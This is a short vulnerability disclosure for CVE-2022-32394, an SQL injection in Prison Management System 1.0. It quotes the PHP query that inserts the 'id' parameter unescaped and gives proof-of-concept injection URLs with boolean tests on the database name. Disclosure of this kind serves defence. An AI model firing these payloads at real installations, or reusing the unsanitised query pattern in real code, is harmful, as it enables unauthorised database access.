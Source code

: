 # CVE-2022-32394
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/inmates/view_inmate.php:3`
```php
$qry = $conn->query("SELECT *,concat(lastname,', ', firstname, coalesce(concat(' ', middlename), '')) as `name` from `inmate_list` where id = '{$_GET['id']}' ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/?page=inmates/view_inmate&id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/?page=inmates/view_inmate&id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32394_true.png)
- False : 
`http://localhost/pms/admin/?page=inmates/view_inmate&id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32394_false.png)
